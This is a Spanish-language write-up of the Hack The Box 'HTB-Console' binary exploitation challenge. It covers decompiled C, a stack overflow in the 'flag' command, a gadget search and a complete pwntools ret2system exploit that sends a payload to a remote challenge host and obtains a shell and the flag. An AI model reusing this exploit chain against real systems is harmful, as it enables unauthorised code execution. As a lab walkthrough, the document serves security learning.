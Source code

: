 # HTB-Console

EL binario aparentemente es una consola bastante limitada:
```console
└─$ ./htb-console
Welcome HTB Console Version 0.1 Beta.
>> whoami
Unrecognized command.
>> help
Unrecognized command.
>>
Unrecognized command.
>> ls
- Boxes
- Challenges
- Endgames
- Fortress
- Battlegrounds
>> cd Endgames
Unrecognized command.
>> exit
Unrecognized command.
>> ^C
```

En Ghidra vemos que no hay funcion main sino otras (he renombrado funciones para que se entienda todo mejor):
```c
void main(void){
  char comando [16];
  puts("Welcome HTB Console Version 0.1 Beta.");
  do {
    printf(">> ");
    fgets(comando,0x10,stdin);
    console(comando);
    memset(comando,0,0x10);
  } while( true );}
 
void console(char *comando) {
  int comando_valido;
  char buffer [16];
  comando_valido = strcmp(comando,"id\n");
  if (comando_valido == 0) {
    puts("guest(1337) guest(1337) HTB(31337)");}
  else {
    comando_valido = strcmp(comando,"dir\n");
    if (comando_valido == 0) {
      puts("/home/HTB");}
    else {
      comando_valido = strcmp(comando,"flag\n");
      if (comando_valido == 0) {
        printf("Enter flag: ");
        fgets(buffer,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
      else {
        comando_valido = strcmp(comando,"hof\n");
        if (comando_valido == 0) {
          puts("Register yourself for HTB Hall of Fame!");
          printf("Enter your name: ");
          fgets(&NAME,10,stdin);
          puts("See you on HoF soon! :)");
        }
        else {
          comando_valido = strcmp(comando,"ls\n");
          if (comando_valido == 0) {
            puts("- Boxes");
            puts("- Challenges");
            puts("- Endgames");
            puts("- Fortress");
            puts("- Battlegrounds");}
      	  else {
            comando_valido = strcmp(comando,"date\n");
            if (comando_valido == 0) {
              system("date");}
            else {
              puts("Unrecognized command.");
            };};}
  return;}
```

Probando cada uno de los comandos intentaremos causar un segfault:

1. Pruebo a meter como comando muchas AAAAA # -> Unrecognized command.
2. Comando "hof"
```
>> hof  
Register yourself for HTB Hall of Fame!
Enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
See you on HoF soon! :)
```
3. Comando flag:
```
>> flag
Enter flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Whoops, wrong flag!
zsh: segmentation fault  ./htb-console
```

Por tanto es por flag por donde está la avería.


gef➤  pattern create 50
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
-------------------------------------------
$rsp   : 0x007fffffffdf58  →  "daaaaaaaeaaaaaaafaaaaaa"
$rbp   : 0x6161616161616163 ("caaaaaaa"?)
gef➤  aga    # ESto lo ha puesto ello solo
Undefined command: "aga".  Try "help".

gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 24 (little-endian search) likely
(└─$ echo "daaaaaaaeaaaaaaafaaaaaa" | wc -c   # -> 24)

Dentro de "flag" -> 24 bytes hasta dar con el RSP (puntero de instrucción)


Como es un stripped binary, no está llamando a libc sino que la tiene cargada directamente en sí mismo, así que
el ret2libc cambia mucho. Por ejemplo la string "bin/sh" no está incluida en el binario sino solo "date" para 
system (se ve en el código arriba)

pop rdi + "/bin/sh" + system

1. Hay que buscar donde tiene el binario la llamada a system (no libc sino el binario en si, cargado en la plt
como si fuera un printf)
```console
└─$ objdump -D htb-console | grep "system"
0000000000401040 <system@plt>:
  401381:	e8 ba fc ff ff       	call   401040 <system@plt>
```
2. Buscar el gadget para abrir el registro que le pasara un arumgneto a la funcion system
```console
└─$ ropper --search  "pop rdi" -f ./htb-console 
0x0000000000401473: pop rdi; ret;
```

A diferencia de los ret2libc normales que buscabamos "bin/sh" dentro de libc  importado ahora como no importa nada
no se puede y en el binario solo llama system a "date".

Digamos que hay que escribir ese "bin/sh" en otro lugar ¿Pero dónde?
En el comando "hof" (hall of fame) nos piden un nombre y lo meten en una variable.
En ghidra, si clicamos a la función &NAME (si no se cambio es DAT_004040B0) y nos da su dirección -> 4040b0

>> hof
Enter your name: bin/sh
See you on HoF soon! :)
C^

gef➤  x/s 0x4040b0
0x4040b0:	"/bin/sh\n"

```python
from pwn import *
proc = remote("138.68.143.219", "32537")

proc.sendline('hof')
name = b'/bin/sh'
proc.sendline(name)

proc.sendline('flag')
pop_rdi = p64(0x00401473);  bin_sh = p64(0x004040b0); system = p64(0x00401040);
payload = b"A"*24 + pop_rdi + bin_sh + system
proc.sendline(payload)

proc.interactive()
```

```console
└─$ python3 exploit.py 2>/dev/null
[+] Opening connection to 138.68.143.219 on port 32537: Done
[*] Switching to interactive mode
 Whoops, wrong flag!
$ ls
console
core
flag.txt
$ cat flag.txt
HTB{fl@g_a$_a_s3rv1c3?}
```
